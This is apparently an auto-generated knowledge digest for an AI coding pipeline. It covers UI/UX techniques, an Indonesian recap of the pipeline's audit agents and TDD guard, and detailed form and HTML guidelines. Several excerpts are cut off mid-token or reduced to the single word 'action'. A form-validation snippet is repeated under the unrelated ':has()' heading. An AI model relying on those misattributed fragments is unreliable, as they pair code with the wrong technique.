action state using a `WeakMap`. This avoids polluting the DOM with "dirty" classes or data attributes.

```javascript
const UserInvalidFallback = (() => {
  const dirtyState = new WeakMap();

  const updateState = (input) => {
    const isValid = input.checkValidity();

    // Update both visual and ARIA state
    input.classList.toggle('user-invalid-fallback', !isValid);
    input.classList.toggle('user-valid-fallback', isValid);

    if (!isValid) {
      input.setAttribute('aria-invalid', 'true');
    } else {
      input.removeAttribute('aria-invalid');
    }
  };

  const handleEvent = (event) => {
    const input = event.target;

    if (event.type === 'reset') {
      const controls = input.elements || [];
      for (const control of controls) {
        dir

#### 🔗 Traceability:
- [Source Context](NEXUS_REQUIRED-FIELD-FEEDBACK.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Rich Media Picker (Customizable Select)
> **Origin**: `ui-ux/NEXUS_RICH-MEDIA-PICKER.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The native `<select>` element was historically difficult to style and could only contain plain text options. The `appearance: base-select` property offers a declarative, CSS-only way to opt into a customizable state for the `<select>` element. This allows developers to include rich HTML content—such as images, SVGs, and complex layouts—inside `<option>` elements, while retaining native keyboard accessibility and form integration. Use this pattern to replace heavy, custom-built select components with standard, native elements.


To implement a rich media picker using the Customizable Select API:

1. **Opt-in to base styles**: Apply `appearance: base-select` to both the `<select>` element and its internal picker using the `::picker(select)` pseudo-element. This changes the browser's HTML parser for the contents inside the `<select>`.
2. **Define the Button Content**: Use standard `<button>` and `<selectedcontent>` elements inside the `<select>` to define what is shown when the picker is closed. The `<selectedcontent>` element automatically mirrors the content of the selected option. This is required if you want to display t...

#### 🔗 Traceability:
- [Source Context](NEXUS_RICH-MEDIA-PICKER.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Sandbox UI/UX Distilled Findings
> **Origin**: `ui-ux/NEXUS_SANDBOX_UI_FINDINGS.md` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 25/05/2026


**Date**: 2026-05-23
**Context**: NEXUS Sandbox Section 1 generated 11 TALL Stack web applications, all of which failed the UX/UI quality check. The resulting applications were merely default Laravel boilerplate pages with haphazardly injected Livewire components.


1. **Broken Boilerplate**: Agen tidak menghapus halaman dokumentasi bawaan Laravel (`welcome.blade.php` dengan link ke Laracasts/Laravel News). Hal ini membuat aplikasi terlihat seperti *scaffold* awal, bukan produk akhir (MVP).
2. **Missing Application Shell**: Tidak ada satupun aplikasi yang menggunakan struktur `layouts/app.blade.php`. Akibatnya, aplikasi tidak memiliki *navbar*, *footer*, navigasi, atau kerangka UI (Shell) yang layak.
3. **Mangled HTML Injection**: Karena struktur HTML yang kacau, injeksi tag `<livewire:...>` malah merusak *tag* `<body>` dan `<div>`.


Untuk generasi kode selanjutnya (terutama agen `ux-engineer` dan `pipeline-architect`), **patuhi aturan ketat berikut**:

1. **Wajib Hapus Boilerplate**: Setiap kali membuat aplikasi baru, halaman bawaan `welcome.blade.php` **HARUS DIHAPUS TOTAL** isinya dan diganti dengan desain halaman depan/Dashbo...

#### 🔗 Traceability:
- [Source Context](NEXUS_SANDBOX_UI_FINDINGS.md)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Scheduling tasks by priority
> **Origin**: `ui-ux/NEXUS_SCHEDULE-TASKS-BY-PRIORITY.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action (e.g., input handling, critical rendering).
- `user-visible`: Tasks visible to the user but not blocking (default).
- `background`: Tasks that are not time-critical (e.g., analytics, prefetching).

```javascript
// Schedule a high-priority task that blocks user interaction
scheduler.postTask(() => {
  // DO: Handle critical updates that impact user interaction
  handleCriticalUpdate();
}, { priority: 'user-blocking' });

// Schedule a default priority task
scheduler.postTask(() => {
  // DO: Render non-critical content that is visible to the user
  renderSecondaryContent();
}); // Defaults to 'user-visible'

// Schedule a low-priority background task
scheduler.postTask(() => {
  // DO: Perform heavy background work that is not time-critical
  sendAnalytics();
},

#### 🔗 Traceability:
- [Source Context](NEXUS_SCHEDULE-TASKS-BY-PRIORITY.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Set a scroll target for the initial render
> **Origin**: `ui-ux/NEXUS_SCROLL-TARGET-ON-LOAD.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The CSS property `scroll-initial-target` offers a declarative, CSS-only way to bring a specific descendant element into the visible area of its scroll container as soon as that container is rendered. Previously, developers relied on JavaScript (`Element.scrollIntoView()`) or URL fragment identifiers (`#item-id`), both of which have limitations and are tricky to implement.


To implement this successfully:

1. **Ensure a scroll container:** The target element must be inside a scroll container (an element with overflow that allows scrolling, such as `overflow: auto`). This can be any ancestor element, including the root `<html>` element.
2. **Target the Item:** Apply `scroll-initial-target: nearest` to the specific descendant element you want to bring into view.


In this example, a feed starts scrolled to a specific "featured" item rather than the very top of the list.

```css
/** 
 * TARGET: The item that should be visible on initial load.
 */
.item.target {
  scroll-initial-target: nearest;
}
```


- **DO** use `scroll-initial-target` for "middle-start" experiences, such as a calendar starting on the c...

#### 🔗 Traceability:
- [Source Context](NEXUS_SCROLL-TARGET-ON-LOAD.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Select Menu Interaction
> **Origin**: `ui-ux/NEXUS_SELECT-MENU-INTERACTION.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action
> **VERSION**: v1 | **Last Updated**: 26/05/2026

#### 🔗 Traceability:
- [Source Context](NEXUS_SELECT-MENU-INTERACTION.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `ui-ux/NEXUS_SHAPED-CUTOUTS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


CSS Masking allows you to clip an element to a custom shape, such as adding a notch to a card or creating a shaped border. When combining shapes for complex layouts, choose your masking strategy based on the type of content the element contains:

| Masking strategy                | Best For                        | Text Impact                    |
| ------------------------------- | ------------------------------- | ------------------------------ |
| Direct Element SVG Masking      | Images, Icons, Decorative shapes, Complex shapes | Not recommended (can crop text) |
| Adjacent Element SVG Masking    | Cards with Text, Crucial content | Text remains fully readable    |
| Pure CSS Gradients              | Simple Geometric Shapes           | Not recommended (can crop text) |

---


To implement shaped cutouts:


SVG masks allow you to define shapes that subtract from or add to the visible area using white (reveal) and black (hide) fills.

> **Luminance vs. Alpha Masking**: SVG masks default to **luminance** (brightness) mode, which is why we use `fill="white"` to reveal areas and `fill="black"` to cut them out. If yo...

#### 🔗 Traceability:
- [Source Context](NEXUS_SHAPED-CUTOUTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `ui-ux/NEXUS_SIZE-AWARE-STYLING.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Size-aware styling allows components to change their layout or appearance based on the space available to them, rather than the size of the whole screen. This is useful for components like cards or navigation bars that might be placed in different parts of a layout (like a narrow sidebar or a wide main area).

Using container queries is recommended because it makes components truly modular. You do not need to know where the component will live or write complex media queries to handle every possible layout.


MANDATORY: You must first tell the browser which element is the container to be measured.

```css
.card-container {
  /* Define the container type. Use 'inline-size' for width-based queries. */
  /* You can also use 'size' for both width and height, but it requires explicit sizing. */
  container-type: inline-size;
}
```


Use the `@container` rule to apply styles when the container reaches a certain size.

```css
/* Default styles for small containers (stacked layout) */
.card {
  display: flex;
  flex-direction: column;
  gap: 1rem;
}

/* Styles for larger containers (side-by-side layout) ...

#### 🔗 Traceability:
- [Source Context](NEXUS_SIZE-AWARE-STYLING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Stabilize Reactive State with Temporal
> **Origin**: `ui-ux/NEXUS_STABILIZE-REACTIVE-STATE.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


While some reactive systems (like [React](https://react.dev/)) rely strictly on reference equality to detect state changes, others (like [Vue](https://vuejs.org/) and [Svelte](https://svelte.dev/)) can track mutations to plain objects. However, for built-in objects like the legacy `Date` object, internal mutations (like `setHours()`) do not change the object's reference and are generally not tracked by any framework's default reactivity system. This leads to missed UI updates and hard-to-debug side effects.

The `Temporal` API solves this by providing immutable objects. Any operation that modifies a value (such as adding time or setting a field) returns a new instance with a new memory reference. This guarantees that state updates are always detected by reactive systems, ensuring UI stability.


To stabilize reactive state using Temporal:

1. **Use Temporal types for state:** Store `Temporal` objects (like `Temporal.PlainDateTime` or `Temporal.PlainDate`) in your reactive state instead of legacy `Date` objects.
2. **Perform immutable updates:** When updating the state, use Temporal methods like `.add()`, `.subtract()`, ...

#### 🔗 Traceability:
- [Source Context](NEXUS_STABILIZE-REACTIVE-STATE.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Style Parent with :has()
> **Origin**: `ui-ux/NEXUS_STYLE-PARENT-WITH-HAS.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action state using a `WeakMap`. This avoids polluting the DOM with "dirty" classes or data attributes.

```javascript
const UserInvalidFallback = (() => {
  const dirtyState = new WeakMap();

  const updateState = (input) => {
    const isValid = input.checkValidity();

    // Update both visual and ARIA state
    input.classList.toggle('user-invalid-fallback', !isValid);
    input.classList.toggle('user-valid-fallback', isValid);

    if (!isValid) {
      input.setAttribute('aria-invalid', 'true');
    } else {
      input.removeAttribute('aria-invalid');
    }
  };

  const handleEvent = (event) => {
    const input = event.target;

    if (event.type === 'reset') {
      const controls = input.elements || [];
      for (const control of controls) {
        dir

#### 🔗 Traceability:
- [Source Context](NEXUS_STYLE-PARENT-WITH-HAS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Validate Input After Interaction
> **Origin**: `ui-ux/NEXUS_VALIDATE-INPUT-AFTER-INTERACTION.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action
> **VERSION**: v1 | **Last Updated**: 26/05/2026

#### 🔗 Traceability:
- [Source Context](NEXUS_VALIDATE-INPUT-AFTER-INTERACTION.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, tdd, vcs, saas, api]

### 📘 KNOWLEDGE: NEXUS_EXTERNAL_PIPELINE_RECAP.MD

# 🌐 Rekapitulasi Pipeline Eksternal Nexus AI (Ecosystem Integration)
> **VERSION**: v2 | **Last Updated**: 26/05/2026


Dokumen ini menjelaskan alur kerja Nexus AI saat berinteraksi dengan proyek eksternal (Local Development). Ini adalah jembatan antara **Engine Pusat** dan **Implementasi Proyek Spesifik**.

---

## 🔗 1. Global CLI Interaction (Bridge Protocol)
Nexus AI beroperasi sebagai perintah global yang terhubung secara dinamis ke kode sumber utama melalui protokol linking.

**Alur Kerja:**
1.  **Engine Linking**: Menggunakan `npm link` di folder pusat (`NEXUS AI`) untuk mendaftarkan command `nexus` secara global.
2.  **Project Integration**: Menggunakan `npm link human-ai-nexus` di folder proyek target (seperti F-Novel) untuk menggunakan versi pengembangan terbaru secara real-time.
3.  **Dynamic Execution**: Command `nexus run` secara otomatis mendeteksi root project dan menyesuaikan perilaku berdasarkan struktur folder yang ditemukan.

---

## 🔍 2. Specialist Audit (External Scan)
Saat fase Audit dimulai pada proyek eksternal, Engine mengerahkan Agent Spesialis untuk melakukan pemindaian mendalam.

**Komponen Utama:**
-   **Cyber Security**: Memeriksa kebocoran `.env`, kerentanan autentikasi, dan konfigurasi keamanan.
-   **UX Engineer**: Memastikan konsistensi desain, penggunaan variabel CSS/Tailwind, dan estetika premium.
-   **SEO & Performance**: Audit WebP, optimasi query database, dan skor aksesibilitas.
-   **VCS Architect**: Menjaga kesehatan repository, `.gitignore`, dan alur branching.

---

## 🛡️ 3. TDD Iron Laws Enforcement (External Guard)
Nexus AI memaksakan standar kualitas tinggi pada proyek eksternal melalui `TDDGuard`.

**Protokol Keamanan:**
-   **Test-Required Modification**: Setiap perubahan pada kode produksi WAJIB memiliki test pendukung.
-   **Exemption Management**: Jika test belum tersedia, file target harus didaftarkan di `[TDD_LIST.md](NEXUS_TDD_LIST.MD)` atau `documentation/planning/[TDD_LIST.md](NEXUS_TDD_LIST.MD)` agar Engine diizinkan melakukan modifikasi fisik.
-   **Violation Block**: Engine akan menghentikan eksekusi secara otomatis jika mendeteksi modifikasi pada file tanpa bukti perencanaan TDD.

**Agent Pendukung:**
-   **TDD Guard Agent**: [tdd-guard.md](file:///c:/Users/ACER/Desktop/NEXUS%20AI/agent/external/engineering/tdd-guard.md) — Bertugas mengelola daftar pengecualian dan memastikan kepatuhan hukum TDD.

---

## 🛠️ 4. External Path Awareness (Structure Detection)
Nexus AI didesain untuk mengenali berbagai struktur proyek secara cerdas.

**Prioritas Deteksi Folder:**
1.  **Documentation-First**: Mencari folder `documentation/` di root proyek untuk menyimpan audit, planning, dan knowledge.
2.  **Nexus-Embedded**: Mencari folder `nexus/` jika folder dokumentasi tidak ditemukan.
3.  **Root-Fallback**: Jika keduanya tidak ada, Engine akan beroperasi langsung di root folder namun memberikan peringatan untuk standarisasi.

---

## 📋 5. Implementation Planning & Auto-Fix
Engine tidak hanya menemukan masalah, tetapi juga merencanakan dan mengeksekusi solusi.

**Proses:**
1.  **Plan Generation**: Membuat file `PLAN-*.json` dan `.md` yang berisi daftar tugas terperinci.
2.  **Auto-Action Injection**: Tugas tertentu (seperti mengamankan `.env`) secara otomatis disuntikkan dengan aksi fisik (`FILE_APPEND`, `FILE_REPLACE`).
3.  **Atomic Execution**: Menggunakan `Modifier.js` untuk menerapkan perubahan langsung ke file proyek eksternal setelah lolos verifikasi TDD.

---

## 🧐 Analisis Integrasi Eksternal

### Kekuatan Saat Ini:
-   **Zero-Config Detection**: Engine sangat fleksibel dalam mengenali struktur folder proyek yang berbeda.
-   **Real-time Development**: Berkat `npm link`, setiap pembaruan logika di Engine pusat langsung tersedia di seluruh proyek yang terhubung.
-   **Compliance-First**: TDD Guard memastikan pengembang (dan AI) tidak melakukan perubahan sembarangan.

### Rekomendasi (External Roadmap):
1.  **Remote Harvesting**: Mengembangkan kemampuan untuk memanen pengetahuan dari repository remote tanpa harus melakukan cloning lokal.
2.  **External Skill Injection**: Memungkinkan proyek eksternal memiliki "Custom Skills" yang hanya berlaku untuk proyek tersebut namun tetap dikelola oleh Orchestrator pusat.

---
## 🚀 6. External Pipeline Roadmap (Future Optimizations)
Kelima pilar optimasi saat ini berada dalam fase perencanaan:
1.  **TDD Scaffolding**: [Planning] Otomatisasi pembuatan test.
2.  **Lainnya**: Skill Injection, Atomic Rollback, Knowledge Distillation, & Shadow Audit.
Detail lengkap di [EXTERNAL_PIPELINE_ROADMAP.md](file:///c:/Users/ACER/Desktop/NEXUS%20AI/documentation/planning/EXTERNAL_PIPELINE_ROADMAP.md).

---
*Generated by Nexus AI | Status: TDD_LAB_FOCUS | Date: 2026-05-01*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, tdd, vcs, api]

### 📘 KNOWLEDGE: NEXUS_FORMS.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

## 1. Semantic Structure and Form Element

### Guidelines

- **DO** use the `<form>` element to wrap interactive controls for data collection.
- **DO** use `method="POST"` for sensitive data and mutations; use `method="GET"` for idempotent requests (e.g., search).
- **DO** specify the `action` attribute for the destination URL.
- **DO** specify a `name` attribute for every form control to identify data on submission.
- **DO** use semantic tags like `<button type="submit">`, `<textarea>`, and `<select>`.
- **DO** use `<fieldset>` and `<legend>` to group related controls.
- **DO** use actionable language on submit buttons (e.g., "Save changes").

- **DON'T** use `GET` for sensitive data (it exposes data in history/logs).
- **DON'T** use generic `<div>` or `<span>` for form controls.
- **DON'T** use `type="button"` for primary submission buttons.
- **DON'T** disable textarea resizing without alternate layout provisions.

### Code Example

```html
<form action="/search" method="GET">
  <fieldset>
    <legend>Search Preferences</legend>
    <label for="q">Query:</label>
    <input type="text" id="q" name="q" required>
    <button type="submit">Search</button>
  </fieldset>
</form>
```

### Selection Control Decision Matrix

| Options Count | Choice Type | Recommended Element | Usability & Accessibility Logic |
| :--- | :--- | :--- | :--- |
| **1–5** | Single (Exclusive) | `<input type="radio">` | **Zero-click scanning**: All choices are immediately visible. Faster scan time. |
| **6+** | Single (Exclusive) | `<select>` | **Space conservation**: Use only when vertical space is premium or the list is long. |
| **10+ / Dynamic** | Single (Exclusive) | `<input list="id">` (`<datalist>`) | **Fuzzy Search**: Prevents scrolling fatigue in massive sets (e.g., countries). |
| **Any** | Multi-select | `<input type="checkbox">` | **Standard semantics**: Native non-exclusive toggles. |

**Single-Sentence Mental Model**: "Expose mutually exclusive options as visible radio buttons when choices are fewer than six; use `<select>` only when space is constrained or the list is long."

## 2. Accessible Labeling and State

### Guidelines

- **DO** always associate `<label>` with its input using `for` and `id`.
- **DO** place labels above form controls to enable faster scanning.
- **DO** use visible labels; do not rely on `placeholder` alone.
- **DO** ensure the vertical margin between a label and its input is less than the margin between form groups (**Gestalt Proximity Rule**).
- **DO** use `aria-describedby` to link inputs with help text or error messages.
- **DO** define the `lang` attribute on `<html>` for proper device translation.
- **DO** use non-color visual cues (icons, text) to communicate state (don't rely on color alone).
- **DO** indicate clearly which fields are required.
- **DO** use `aria-live` for dynamic error announcements.

- **DON'T** use `placeholder` as a replacement for labels.
- **DON'T** use `aria-label` as the sole text description if translation is needed.
- **DON'T** disable focus outlines without providing a high-contrast alternative.

### Code Example

```html
<div class="field">
  <label for="username">Username:</label>
  <input type="text" id="username" name="username" aria-describedby="user-help" required>
  <span id="user-help" class="hint">3-12 characters.</span>
</div>

<style>
  input:focus-visible {
    outline: 3px solid #0b57d0;
    outline-offset: 2px;
  }
</style>
```

## 3. Autofill and Input Modes

### Guidelines

- **DO** use the `autocomplete` attribute to specify expected data (e.g., `email`, `tel`, `current-password`, `new-password`).
- **DO** use `inputmode` to optimize on-screen keyboards (e.g., `inputmode="numeric"` for PINs).
- **DO** use `enterkeyhint` to set the Enter key label (e.g., `next`, `done`).
- **DO** use single-field inputs for complex numbers (credit cards, phones) to help autofill.

- **DON'T** use `type="number"` for credit cards or ZIP codes (causes UI scroll issues and removes leading zeros).

### Code Example

```html
<label for="zip">ZIP Code:</label>
<input type="text" id="zip" name="zip" autocomplete="postal-code" inputmode="numeric" pattern="\d{5}">
```

## 4. Constraints and Validation

### Guidelines

- **DO** use native constraints: `required`, `minlength`, `maxlength`, `pattern`.
- **DO** use CSS pseudo-classes `:invalid:user-invalid` for non-intrusive styling.
- **DO** use the ValidityState API (`setCustomValidity`) for custom messaging.

- **DON'T** disable submit buttons to block validation; let users submit and highlight errors. However, **DO** disable the button *after* a valid submission is clicked to prevent double-posts.

### Code Example

```html
<label for="code">Activation Code (4 digits):</label>
<input type="text" id="code" name="code" required pattern="\d{4}">

<script>
  const input = document.getElementById('code');
  input.addEventListener('invalid', () => {
    input.setCustomValidity('Please enter exactly 4 digits.');
  });
  input.addEventListener('input', () => {
    input.setCustomValidity('');
  });
</script>
```

### Validation Event Timing Matrix

| Event Trigger | Phase | Action Allowed | UX / Accessibility Logic |
| :--- | :--- | :--- | :--- |
| **`input`** | Active Typing | **Clear** existing errors only. | **Non-intrusive**: Do not yell at the user before they finish typing. |
| **`blur` / `focusout`** | Exiting Field | **Run** check and show error. | **Contextual validation**: Validate once the user indicates they are "done" with a field. |
| **`submit`** | Final Attempt | **Block** and route focus. | **Final gatekeeper**: Intercepts bad payloads and forces screen reader focus to the summary. |

**Single-Sentence Mental Model**: "Validate on `blur` to avoid premature warnings while typing, and reset error states on `input` as soon as the user attempts a correction."

**Security vs UX Scale**: Client-side validation is for User Experience; Server-side validation is for Security. Never treat browser constraints as a data integrity defense.

## 5. Responsive Design and Typography

### Guidelines

- **DO** use single-column layouts for scanning.
- **DO** set `font-size` to at least `1rem` (16px) to prevent iOS zoom.
- **DO** expand clickable areas for mobile tap targets using padding tricks.
- **DO** ensure tap targets are at least `48px`.
- **DO** use units relative to root (`rem`) and unitless `line-height`.
- **DO** use CSS logical properties (e.g., `margin-inline-start`) for RTL support.

### Code Example

```css
.form-group {
  margin-block-end: 1.5rem;
}

/* Expand clickable tap area without layout shift */
label {
  display: inline-block;
  padding: 10px 0;
  margin: -10px 0;
}

input {
  font-size: 1rem;
  padding: 0.75rem;
  min-height: 48px;
  box-sizing: border-box;
}

@media (pointer: coarse) {
  input {
    min-height: 52px;
  }
}
```

## 6. Styling Form Controls

### Guidelines

- **DO** use `accent-color` for quick branding of native radios/checkboxes.
- **DO** use `appearance: none` for custom dropdown arrows without breaking semantics.
- **DO** ensure inputs are clearly visible with adequate border contrast (e.g., `#ccc` or darker on white backgrounds).
- **DO** hide inputs visually using the canonical `.visually-hidden` recipe (`clip-path: inset(50%)` with 1px dimensions) — NOT `display: none`, which removes them from the accessibility tree.

### Code Example

```html
<div class="checkbox-container">
  <input type="checkbox" id="sub" name="sub" class="visually-hidden">
  <label for="sub" class="checkbox-label">Subscribe</label>
</div>

<style>
  .visually-hidden {
    position: absolute;
    clip-path: inset(50%);
    overflow: hidden;
    width: 1px;
    height: 1px;
    margin: -1px;
    padding: 0;
    border: 0;
    white-space: nowrap;
  }
  .checkbox-label::before {
    content: "";
    display: inline-block;
    width: 1.25rem;
    height: 1.25rem;
    border: 2px solid #ccc;
  }
  input:focus-visible + .checkbox-label::before {
    outline: 2px solid #0b57d0;
  }
</style>
```

## 7. JavaScript and AJAX

### Guidelines

- **DO** prevent default navigation on form submit for AJAX (`e.preventDefault()`).
- **DO** use `ValidityState` interfaces for real-time validation checks.
- **DO** use `aria-expanded` and `aria-controls` for dynamic UI reveals.

- **DON'T** block page submission if JS fails; ensure server-side fallback.

### Code Example

```js
form.addEventListener('submit', (e) => {
  e.preventDefault();
  const data = new FormData(form);
  // fetch('/submit', { method: 'POST', body: data });
});
```

## 8. Identity, Payments, and Advanced Security

### Guidelines

- **DO** use `autocomplete="new-password"` for sign-up and `autocomplete="current-password"` for sign-in.
- **DO** allow pasting into password fields.
- **DO** provide a toggle capability allowing users to unmask password input.
- **DO** indicate exact amounts on pay buttons (e.g., "Pay $100").
- **DO** use `autocomplete="cc-number"`, `cc-exp`, `cc-csc`.
- **DO** use HTTPS for all pages.
- **DO** implement cryptographically secure anti-CSRF tokens for mutating actions (POST/PUT/DELETE).
- **DO** sanitize user input (e.g., via DOMPurify) before injecting it into the DOM to prevent XSS.
- **DO** implement spam protection (honeypots or CAPTCHA) for open forms.

- **DON'T** utilize HTTP `GET` for endpoints executing state changes.
- **DON'T** use inline JavaScript (e.g., `onclick="..."`) directly within form markup to satisfy strict Content Security Policies (CSP).

### Code Example

```html
<form method="post">
  <input type="hidden" name="csrf_token" value="secure_token_abc123">

  <h1>Sign up</h1>

  <div class="form-group">        
    <label for="name">Full name</label>
    <input id="name" name="name" autocomplete="name" required pattern="[\p{L}\.\- ]+">
  </div>

  <div class="form-group">        
    <label for="email">Email</label>
    <input id="email" name="email" type="email" autocomplete="username" required>
  </div>

  <div class="form-group">
    <label for="password">Password</label>
    <button id="toggle-password" type="button" aria-pressed="false" aria-label="Show password" aria-describedby="toggle-warning">
      
      
    </button>
    <span id="toggle-warning" class="visually-hidden">Warning: this will display your password on the screen.</span>
    <input id="password" name="password" type="password" autocomplete="new-password" minlength="8" aria-describedby="password-constraints" required>
    <div id="password-constraints">Eight or more characters.</div>
  </div>

  <button id="sign-up">Sign up</button>
</form>
```


## 9. Address Collection

### Guidelines

- **DO** use a single field for names.
- **DO** use `autocomplete="street-address"`.
- If the site has users in different countries, **DO** use the `<textarea>` element for addresses, to accommodate different address formats in different geographical regions. If the form uses separate inputs for address parts (e.g. Street, City), **DO** use `autocomplete` values `address-line1`, `address-line2`, etc.
- **DO** make postal codes optional.

- **DON'T** split name inputs into rigid variables ("First", "Last") for global audiences.
- **DON'T** enforce Latin-only characters for names and usernames.

### Code Example

```html
<!-- Accessible Address Form with Autofill -->
<form action="/save-address" method="POST">
  <div class="form-group">
    <label for="full-name">Full name</label>
    <input type="text" id="full-name" name="full_name" maxlength="100" required autocomplete="name">
  </div>

  <div class="form-group">
    <label for="address">Address</label>
    <textarea id="address" name="address" required autocomplete="street-address" maxlength="300"></textarea>
  </div>

  <button type="submit">Save Address</button>
</form>
```


## 10. Usability Testing and Analytics

### Guidelines

- **DO** test forms across multiple devices, browsers, and screen sizes.
- **DO** test keyboard-only navigation (using `Tab` and `Shift+Tab`) and verify visual focus.
- **DO** emulate various impairments (visual, motor) using browser tools.
- **DO** use analytics to monitor form completion rates and bounce points.
- **DO** track discrete events (e.g., field focus, click) to find micro-friction points.

- **DON'T** rely solely on automated tools (Lighthouse) for usability; test with real users.
- **DON'T** track sensitive personal data in standard event labels.

### Code Example

```html
<form action="/submit" method="POST" id="track-form">
  <label for="postal-code">ZIP or postal code</label>
  <input type="text" id="postal-code" name="postal-code" autocomplete="postal-code" maxlength="20" required>
  <button type="submit" id="submit-btn">Submit</button>
</form>

<script>
  const trackForm = document.getElementById('track-form');
  const trackBtn = document.getElementById('submit-btn');
  
  trackBtn.addEventListener('click', () => {
    console.log('Analytics Event: Submit clicked');
  });
</script>
```

## 11. Multi-Page Forms

### Guidelines

- **DO** clearly display progress through a multi-page form with clear labels and progress indicators.
- **DO** allow users to navigate backwards and forwards between pages.
- **DO** use context-specific `enterkeyhint` values (e.g., `"previous"`, `"next"`) to guide navigation via on-screen keyboards.
- **DO** design layouts so that the mobile keyboard does not obscure inputs or buttons (e.g., by placing them in the upper half of the viewport when focused or using CSS scroll-padding).

### Code Example

```html
<nav aria-label="Progress">
  <ol class="progress-tracker">
    <li class="step-done">Step 1: Account</li>
    <li class="step-active" aria-current="step">Step 2: Shipping</li>
    <li class="step-todo">Step 3: Payment</li>
  </ol>
</nav>

<button type="button" onclick="history.back()" enterkeyhint="previous">Previous</button>
<button type="submit" enterkeyhint="next">Next</button>
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, tdd, vcs, api]

### 📘 KNOWLEDGE: NEXUS_HTML.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

## Table of Contents

1. Fundamental Semantics and Validation
2. Content Grouping and Attribution
3. Resource Prioritization and Performance
4. Native Overlays: Dialogs and Popovers
5. Disclosures: Details and Summary
6. Focus Boundaries and Visibility
7. HTML APIs and Forms Grouping
8. Native Media Elements
9. Dynamic Styles and Interactivity

## 1. Fundamental Semantics and Validation

### Guidelines

- **DO** use the standard HTML5 doctype `<!DOCTYPE html>` to prevent quirky rendering modes. 
- **DO** set the `lang` attribute on the `<html>` element for screen reader pronunciation and translation tools.
- **DO** use the `<meta name="viewport">` element with the `content` attribute set to `"width=device-width, initial-scale=1.0"` to ensure page responsiveness.
- **DO** use a single `<h1>` per page/view representing the main topic. Exceptions can be made for modal dialogs, which can also use a single `<h1>`.
- **DO** maintain a sequential, non-skipping heading hierarchy (`<h2>` to `<h3>`, but not `<h2>` to `<h4>`).
- **DO** use semantic landmarks (`<header>`, `<nav>`, `<main>`, `<aside>`, `<footer>`) to create regional navigation for assistive technologies.
- **DO** use `<search>` to enclose search and filtering mechanisms (eliminates the need for `role="search"`).
- **DO** use `<button>` for triggered actions (JS, Modals, Forms) and `<a>` strictly for URL navigation. Set `type="button"` for non-submit buttons in forms to prevent unintended submission.
- **DO** use `<ul>`, `<ol>`, and `<dl>` elements for list content. 
- **DO** ensure that all interactive elements like links and buttons have accessible names.  
- **DO** hide purely decorative SVG images from assistive technology using `aria-hidden="true"`. If using a decorative ``, always include an empty `alt` attribute (e.g. `alt=""`). 
- **DO** ensure that informative SVGs like logos, data visualizations, or icon buttons have a proper accessible name. 

- **DON'T** use generic `<div>` or `<span>` when semantic elements exist, for instance for interactive elements, headings, or independently reusable self-contained content.
- **DON'T** use boolean attributes with redundant values (e.g., use `disabled`, not `disabled="disabled"`).
- **DON'T** use generic elements with added ARIA roles or states when native elements with built-in semantics and behavior exist.
- **DON'T** change the native semantics of elements with ARIA unless it is a critical requirement. 
- **DON'T** use `role="presentation"` or `aria-hidden="true"` on focusable elements or their parents and ancestors. 
- **DON'T** disable page zooming capabilities.

### Code Example

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Dashboard | Platform</title>
</head>
<body>
  <header>
    <nav>
      <ul>
        <li><a href="#">About</a></li>
        <li><a href="#">Contact</a></li>
      </ul>
    </nav>
  </header>
  <main>
     <h1>Analytics</h1>
    <search>
      <form action="/filter" method="GET">
        <label for="search-input">Scan items:</label>
        <input type="search" id="search-input" name="q">
        <button type="submit">Search</button>
      </form>
    </search>
    <article>
      <h2>First post</h2>
    </article>
  </main>
</body>
</html>
```

## 2. Content Grouping and Attribution

### Guidelines

- **DO** use `<blockquote>` for extended quotations from another source, and use the `cite` attribute to provide a machine-readable URL for that source.
- **DO** use `<figure>` to group self-contained content (images, code snippets, or quotes) that is referenced from the main flow but could be moved to an appendix or sidebar without affecting the document's meaning.
- **DO** use `<figcaption>` as the first or last child of a `<figure>` to provide a human-readable caption or attribution.
- **DO** use the `<cite>` element inside a caption or attribution to identify the **title** of a work (e.g., a book or website name), not the author's name.
- **DO** use the `<code>` element for short fragments of computer code (e.g., variable names, file paths, or inline snippets).
- **DO** wrap `<code>` inside a `<pre>` element when displaying blocks of code to preserve whitespace and line breaks.
